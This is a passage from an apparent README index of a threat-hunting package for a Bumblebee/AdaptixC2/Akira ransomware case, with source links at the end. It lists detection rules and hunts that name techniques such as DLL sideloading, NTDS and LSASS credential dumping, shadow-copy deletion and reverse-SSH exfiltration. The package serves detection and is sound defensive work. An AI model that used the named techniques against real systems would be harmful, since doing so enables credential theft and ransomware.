| kill_chain.svg | Two-lane kill-chain diagram (template A, ransomware accent). | [kill_chain.svg](./kill_chain.svg) |
| sigma/bumblebee_consent_msimg32_sideload.yml | Sigma: consent.exe sideloading msimg32.dll (image_load). | [view](./sigma/bumblebee_consent_msimg32_sideload.yml) |
| sigma/adaptixc2_wab_masquerade_wmi_spawn.yml | Sigma: WmiPrvSE-spawned WAB.EXE masquerade from AppData. | [view](./sigma/adaptixc2_wab_masquerade_wmi_spawn.yml) |
| sigma/ntds_wbadmin_veeam_psql_credtheft.yml | Sigma: wbadmin NTDS backup or Veeam psql credential dump. | [view](./sigma/ntds_wbadmin_veeam_psql_credtheft.yml) |
| kql/bumblebee_consent_msimg32_sideload.kql | KQL: consent.exe + msimg32.dll non-system image load. | [view](./kql/bumblebee_consent_msimg32_sideload.kql) |
| kql/adaptixc2_wab_wmiprvse_spawn.kql | KQL: WMI-spawned WAB masquerade beacon. | [view](./kql/adaptixc2_wab_wmiprvse_spawn.kql) |
| kql/ntds_wbadmin_lsassy_comsvcs.kql | KQL: NTDS wbadmin + comsvcs LSASS + Veeam psql. | [view](./kql/ntds_wbadmin_lsassy_comsvcs.kql) |
| kql/akira_shadowcopy_delete_locker.kql | KQL: WMI shadow-copy delete + locker.exe flags. | [view](./kql/akira_shadowcopy_delete_locker.kql) |
| yara/bumblebee_adaptixc2_akira.yar | YARA: Akira locker markers, Veeam DPAPI dump PowerShell, renamed SoftPerfect netscan. | [view](./yara/bumblebee_adaptixc2_akira.yar) |
| suricata/bumblebee_adaptixc2_akira.rules | Suricata: delivery domains + C2/exfil IPs (infra-decay). | [view](./suricata/bumblebee_adaptixc2_akira.rules) |
| hunts/peak_h1_seo_msi_sideload.md | PEAK hunt: MSI -> sideload -> DGA C2. | [view](./hunts/peak_h1_seo_msi_sideload.md) |
| hunts/peak_h2_wmi_wab_beacon.md | PEAK hunt: WMI-spawned WAB masquerade beacon. | [view](./hunts/peak_h2_wmi_wab_beacon.md) |
| hunts/peak_h3_ntds_veeam_exfil.md | PEAK hunt: credential burst -> reverse SSH + FileZilla exfil. | [view](./hunts/peak_h3_ntds_veeam_exfil.md) |
| iocs.csv | Machine-readable IOCs. | [iocs.csv](./iocs.csv) |
| kev.md | CISA KEV cross-reference for this case's CVEs (only CVE-2024-40766, referenced for genealogy). | [kev.md](./kev.md) |

## Sources

- [The DFIR Report — From Bing Search to Ransomware: Bumblebee and AdaptixC2 Deliver Akira (2026-06-29)](https://thedfirreport.com/2026/06/29/from-bing-search-to-ransomware-bumblebee-and-adaptixc2-deliver-akira-3/)
- [The DFIR Report — original case (2025-08-05)](https://thedfirreport.com/2025/08/05/from-bing-search-to-ransomware-bumblebee-and-adaptixc2-deliver-akira/)
- [GBHackers — BumbleBee and AdaptixC2 Deliver Akira Ransomware Through Bing SEO Poisoning](https://gbhackers.com/bumblebee-and-ada